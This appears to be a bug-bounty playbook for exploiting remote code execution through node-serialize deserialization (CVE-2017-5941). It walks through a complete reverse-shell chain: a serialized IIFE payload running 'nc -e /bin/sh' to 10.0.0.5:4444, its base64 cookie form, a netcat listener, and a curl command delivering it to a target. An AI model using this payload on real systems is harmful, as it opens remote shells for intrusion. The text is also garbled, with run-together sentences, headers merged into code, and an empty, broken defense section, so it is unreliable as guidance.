

# Node.js Deserialization RCE (`node-serialize`)

## When to Use
- When auditing a Node.js web application that accepts base64 or JSON encoded payloads in cookies, HTTP headers, or POST bodies and passes them directly to `unserialize()` or similar dangerous functions natively.
- To demonstrate how seemingly safe JSON structures uniquely can organically harbor malicious executable JavaScript when libraries like `node-serialize` or historically vulnerable versions of `serialize-javascript` are utilized Workflow

### Phase 1: Understanding Node.js Serialization (The Concept)

```javascript
# Concept: Unlike standard `JSON.parse()` limiting intuitively data `node-serialize` 1. Normal JSON.parse() JSON 2. `node-serialize` var serialize = require('node-serialize');
var obj = {
  say: function() { return 'Hello'; }
};
console.log(serialize.serialize(obj));
# Output: {"say":"_$$ND_FUNC$$_function() { return 'Hello'; }"}
```

### Phase 2: Identifying the Vulnerability

```text
# 1. Look for Cookies Example Cookie Cookie: profile=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpIHsgcmV0dXJuICdCb2InOyB9In0=

# 2. Decode the Base64 { "username": "_$$ND_FUNC$$_function() { return 'Bob'; }" }
```

### Phase 3: Crafting the RCE Payload (The IIFE)

```javascript
# Concept: 1. The Malicious Function var payload = {
    rce: function() {
        require('child_process').exec('nc -e /bin/sh 10.0.0.5 4444');
    }
};

# 2. Serialize {"rce":"_$$ND_FUNC$$_function() {\n require('child_process').exec('nc -e /bin/sh 10.0.0.5 4444');\n }"}

# 3. Add the IIFE '()' THIS IS CRITICAL {"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('nc -e /bin/sh 10.0.0.5 4444'); }()"}

# 4. Base64 Encode eyJyY2UiOiJfJCRORF9GVU5DJSRfZnVuY3Rpb24oKSB7IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCduYyAtZSAvYmluL3NoIDEwLjAuMC41IDQ0NDQnKTsgfSgpIn0=
```

### Phase 4: Execution

```bash
# 1. Start netcat listener gracefully
nc -lvnp 4444

# 2. Send the Payload curl -X GET http://target.com/profile -b "profile=eyJyY2UiOiJfJCRORF9GVU5DJSRfZnVuY3Rpb24oKSB7IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCduYyAtZSAvYmluL3NoIDEwLjAuMC41IDQ0NDQnKTsgfSgpIn0="

# 3. Receive Shell connection ```

#### Decision Point 🔀



## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration


## 🔵 Blue Team Detection & Defense
- **Do ****Content Key Concepts
| Concept | Description |
|---------|-------------|
| `node-serialize` | |


## Output Format
```
Nodejs Deserialization Rce — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


## 📚 Shared Resources
> For cross-cutting methodology applicable to all vulnerability classes, see:
> - [`_shared/references/elite-chaining-strategy.md`](../_shared/references/elite-chaining-strategy.md) — Exploit chaining methodology and high-payout chain patterns
> - [`_shared/references/elite-report-writing.md`](../_shared/references/elite-report-writing.md) — HackerOne-optimized report writing, CWE quick reference
> - [`_shared/references/real-world-bounties.md`](../_shared/references/real-world-bounties.md) — Verified disclosed bounties by vulnerability class

## References
- OpSecX: [Exploiting Node.js Deserialization Bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- NVD: [CVE-2017-5941](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)
